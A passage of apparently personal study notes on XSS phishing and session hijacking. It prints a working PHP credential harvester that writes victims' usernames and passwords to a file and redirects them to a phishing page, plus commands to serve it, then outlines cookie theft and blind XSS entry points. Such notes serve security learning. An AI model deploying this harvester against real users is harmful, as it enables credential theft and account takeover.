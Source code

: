 however, we are currently only listening, so the user will get an error because we aren't responding  
we can use a basic PHP script that logs credentials from the HTTP requests and then returns the victim to the original page 

here is an example script: 

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

we can save this as `index.php` and put it in `/tmp/tmpserver/`

then we can instead start a PHP server instead of netcat: 

```shell
mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php #at this step we wrote our index.php file
sudo php -S 0.0.0.0:80
```

![](Images/Pasted%20image%2020240124200231.png)

then with our script it will redirect users after stealing the credentials, then if we check the creds.txt file we can see all of the collected credentials

## Session Hijacking

modern web apps use cookies to maintain a user's session throughout browsing sessions    
if a threat actor obtains these cookies then they might be able to gain logged-in access with the victim's account without knowing their credentials 

session hijacking = cookie stealing 

### Blind XSS detection 

blind XSS occurs when the vulnerability is triggered on a page we don't have access to 

these typically occur with forms only accessible by certain users like admins, some examples are: 
- contact forms
- reviews
- user details
- support tickets 
- HTTP User-Agent header 
